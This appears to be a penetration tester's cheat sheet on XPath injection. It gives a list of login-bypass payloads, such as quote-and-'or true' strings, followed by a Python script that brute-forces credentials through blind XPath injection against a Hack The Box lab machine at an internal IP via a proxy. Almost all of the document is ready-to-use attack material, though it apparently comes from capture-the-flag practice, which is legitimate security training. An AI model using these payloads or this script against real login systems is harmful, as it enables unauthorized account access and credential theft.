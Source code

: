 XPATH

https://book.hacktricks.xyz/pentesting-web/xpath-injection
https://www.scip.ch/en/?labs.20180802
https://www.note4tech.com/post/sql-injection-tutorial-login-bypass

* * *

**XPATH Injection (Bypassing login)**
https://www.note4tech.com/post/sql-injection-tutorial-login-bypass

'-'

' '

'&'

'^'

'*'

' or ''-'

' or '' '

' or ''&'

' or ''^'

' or ''*'

"-"

" "

"&"

"^"

"*"

" or ""-"

" or "" "

" or ""&"

" or ""^"

" or ""*"

or true--

" or true--

' or true--

") or true--

') or true--

' or 'x'='x

') or ('x')=('x

')) or (('x'))=(('x

" or "x"="x

") or ("x")=("x

")) or (("x"))=(("x

* * *

**Brute force script (Blind XPATH Injection)**
https://www.scip.ch/en/?labs.20180802

#!/usr/bin/env python3

import requests
import sys

userpath = "/home/greg/htb/unbalanced/users.lst"

url = "http://172.31.179.1/intranet.php"
proxy = {
        "http":"http://10.10.10.200:3128",
        "https":"http://10.10.10.200:3128"}

def login(user, password):

    #print("Trying " + user, password)
    r = requests.post(url, proxies=proxy, data = {

            "Username": user,
            "Password": password

        })

    return r.text

with open(userpath, "r") as raw_users:
    users = [ line.strip() for line in raw_users.read().split("\n") if line ]

refLength = len(login("admin","admin"))
print(refLength)

for user in users:
    i=0

    passwordspath = "/home/greg/htb/unbalanced/" + user + "-passwords-tmp-002.lst"

    print(passwordspath)
    with open(passwordspath, "r") as raw_passwords:

        passwords = [ line.strip() for line in raw_passwords.read().split("\n") if line ]

    print("Working on " + user + "...")
    for password in passwords:
        i+=1
        resp1 = login(user, password)

        if len(resp1) == refLength:
            if i % 100 == 1:
                print("Still working on it...")
            continue
        print("Got it !!!"+ "\n" + user + " have password => " + password)
        break